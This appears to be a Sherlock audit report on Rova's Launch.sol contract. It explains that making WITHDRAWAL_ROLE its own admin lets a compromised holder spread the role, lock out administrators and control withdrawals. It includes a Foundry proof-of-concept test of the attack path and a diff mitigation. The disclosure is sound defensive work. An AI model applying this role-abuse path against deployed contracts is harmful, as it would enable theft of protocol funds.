 Future Blue Parakeet

High

# [H-1] Compromised or malicious withdrawalAddress will permanently control all protocol funds through `WITHDRAWAL_ROLE`'s self-administration vulnerability

### Summary

The self-administration of `WITHDRAWAL_ROLE` in [`Launch.sol`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol) will cause a complete loss of protocol funds for users as an attacker with `WITHDRAWAL_ROLE` can grant unlimited withdrawal privileges and lock out legitimate administrators.

### Root Cause

In [`Launch.sol#203`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L203), `_setRoleAdmin(WITHDRAWAL_ROLE, WITHDRAWAL_ROLE)` creates a critical vulnerability by making `WITHDRAWAL_ROLE` its own administrator, breaking the proper role hierarchy and removing administrator oversight.

### Internal Pre-conditions

1. `WITHDRAWAL_ROLE` holders needs to be compromised or malicious 
2. Contract needs to be initialized with `_setRoleAdmin(WITHDRAWAL_ROLE, WITHDRAWAL_ROLE)` 
3. Any funds need to be present in the contract that can be withdrawn

### External Pre-conditions

No external preconditions required - the vulnerability exists solely within the contract's role management system.

### Attack Path

1. **Attacker gains access to an address with `WITHDRAWAL_ROLE`**(either through compromise or being a malicious withdrawal address)
2. **Attacker call `revoke(WITHDRAWAL_ROLE, address(admin))`** to remove `DEFAULT_ADMIN_ROLE` from withdrawal privileges
3. **Attacker call [`setWithdrawalAddress(attackerAddress)`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L792)** to route withdrawals to their address
4. **Attacker can grant `WITHDRAWAL_ROLE` to additional address** to create a network of compromised withdrawers 
5. **`DEFAULT_ADMIN_ROLE` cannot revoke the attacker's `WITHDRAWAL_ROLE`** as they don't have authority over the role

### Impact

The protocols suffers a complete loss of funds. The attacker gains:
1. Permanent, irrevocable withdrawal privileges
2. Ability to grant unlimited withdrawal access
3. Control over withdrawal address 
4. Power to revoke legitimate administrators access 
5. No possibility of administrative intervention or recovery

### PoC

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {
    CurrencyConfig,
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    CancelParticipationRequest
} from "../src/Types.sol";
 

contract WithdrawRoleTest is LaunchTestBase {
    address public attacker;
    address public newAttacker;

    function setUp() public {
        // Attacker's Address 
        attacker = makeAddr("attacker");
        newAttacker = makeAddr("newAttacker");

        _setUpLaunch();
    }


    function testExploitWithdrawalRole() public {
        // Check testWithdrawalAddress have 'WITHDRAWAL_ROLE'
        assertTrue(launch.hasRole(WITHDRAWAL_ROLE, testWithdrawalAddress));
        // check attack don't have 'WITHDRAWAL_ROLE'
        assertFalse(launch.hasRole(WITHDRAWAL_ROLE, attacker));

        // testWithdrawalAdress exploit, then grant role to attacker
        vm.prank(testWithdrawalAddress);
        launch.grantRole(WITHDRAWAL_ROLE, attacker);
        assertTrue(launch.hasRole(WITHDRAWAL_ROLE, attacker));

        // attacker can grant 'WITHDRAWAL_ROLE' to other        
        vm.prank(attacker);
        launch.grantRole(WITHDRAWAL_ROLE, newAttacker);

        // Check newAttacker have role
        assertTrue(launch.hasRole(WITHDRAWAL_ROLE, newAttacker));

      
        // Check Admin can't revoke role 
        vm.startPrank(admin.addr);
        vm.expectRevert(
            abi.encodeWithSelector(
                AccessControlUnauthorizedAccount.selector,    
                admin.addr,
                WITHDRAWAL_ROLE
            )
        );
        launch.revokeRole(WITHDRAWAL_ROLE, attacker);
        vm.stopPrank();

        assertTrue(launch.hasRole(WITHDRAWAL_ROLE, attacker));
        
        // attacker revoke DEFAULT_AMDIN_ROLE
        vm.startPrank(attacker);
        launch.revokeRole(WITHDRAWAL_ROLE, admin.addr);
        assertFalse(launch.hasRole(WITHDRAWAL_ROLE, admin.addr));
        vm.stopPrank();

        // attacker revoke testWithdrawalAdress
        vm.startPrank(attacker);
        launch.revokeRole(WITHDRAWAL_ROLE, testWithdrawalAddress);
        assertFalse(launch.hasRole(WITHDRAWAL_ROLE, testWithdrawalAddress));
        vm.stopPrank();

    }
```

### Mitigation

1.In ['initialize()'](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L181) Remove the self-administration pattern:
```diff
function initialize(address _withdrawalAddress, bytes32 _launchId, address _initialAdmin, uint8 _tokenDecimals)
    external
    initializer
{
    // ... previous code ...
    
    // Grant withdrawal role to predetermined withdrawal address
    _grantRole(WITHDRAWAL_ROLE, _withdrawalAddress);
-   _setRoleAdmin(WITHDRAWAL_ROLE, WITHDRAWAL_ROLE);
}
```

Additional recommendations:
1. Implement timelock for critical role operations 
2. Add maximum limits on `WITHDRAWAL_ROLE` holders
3. Require multiple signatures for role changes 
4. Add emergency pause functionality 
